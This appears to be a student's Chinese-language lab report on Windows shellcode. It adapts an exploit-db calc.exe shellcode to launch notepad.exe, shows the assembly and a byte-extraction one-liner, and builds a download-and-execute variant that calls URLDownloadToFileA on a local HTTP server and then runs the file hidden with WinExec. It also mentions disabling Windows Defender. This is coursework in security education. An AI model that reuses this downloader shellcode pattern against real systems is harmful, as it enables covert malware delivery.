

## 第一次实验

### 实验要求

- [x] 把[该链接](https://www.exploit-db.com/shellcodes/48116)中shellcode能够成功运行
- [x] 能从汇编源码编译通过并成功dump
- [x] 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理
- [x] 修改shellcode功能为运行记事本程序notepad.exe
- [ ] (选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）

### 实验流程

1. **应用shellcode弹出calc.exe**


2. **能从汇编源码编译通过并成功dump**
    ```
    执行的命令：
    cl.exe /c over.c
    link.exe over.obj
    over.exe
    ```
    

    ```
    dumpbin over.exe
    ```
    

3. **修改shellcode功能为运行记事本程序notepad. exe**
    + 在虚拟机中编辑汇编代码win32-WinExec_Calc-Exit.asm
    
    ```
    核心代码：
    ; Call WinExec( CmdLine, ShowState );
    ;   CmdLine   = "notepad.exe"
    ;   ShowState = 0x00000001 = SW_SHOWNORMAL - displays a window
    xor ecx, ecx          ; clear eax register
    push ecx              ; string terminator 0x00 for "notepad.exe" string
    push 0x00657865       ;  exe : 6578652e
    push 0x2e646170       ; .dap : 63617065
    push 0x65746f6e       ; eton : 746f6e1
    mov ebx, esp          ; save pointer to " notepad.exe" string in eax
    inc ecx               ; uCmdShow SW_SHOWNORMAL = 0x00000001
    push ecx              ; uCmdShow  - push 0x1 to stack # 2nd argument
    push ebx              ; lpcmdLine - push string address stack # 1st argument
    call eax              ; Call the WinExec Function
    ```
    + 然后执行以下命令：
    ```
    //nasm（汇编器） - f win32 win32 - WinExec_Calc - Exit.asm（汇编文件名） - o win32 - WinExec_Calc - Exit.o（输出文件名）
    将汇编文件转换为.o文件
    for i in $(objdump - D win32 - WinExec_Calc - Exit.o | grep "^ " | cut - f2(以2个字符分隔循环); do echo - n '\x'$i(每个字符前加一个\x); done; echo
    将.o文件打印为可执行的shellcode代码
    ```
    + 输出shellcode代码：
    
    + 执行弹出notepad.exe
    

    ---


4. **修改shellcode功能为下载执行器**
- 所下载的exe为3中的over.exe,exe功能：弹出notepad.exe。

+ 使用GetProcAddress函数，URLDownloadToFileA模块
+ 在over.exe所在的路径下使用`python -m http.server`命令搭建一个网站
    
    ```
    function_ptr(NULL, "http://10.195.24.110:8000/over.exe", "a.exe", 0, NULL);
	WinExec("a.exe", SW_HIDE);
    ```
- 在网站中下载exe后，使用WinExec调用exe，执行成功


- 将C语言变成汇编语言


#### 遇到的问题

- notepad.exe应该从前往后对齐压栈，在老师的提醒下改了过来
- 做最后一个实验exe被杀掉，暂时关掉Windows Defender，做完实验后再开启
- 调试的时候看到输出是无法打开PDB文件，也不知道是不是这个问题，所以按照[博客](https://blog.csdn.net/zj360202/article/details/38678207)解决了一下报错。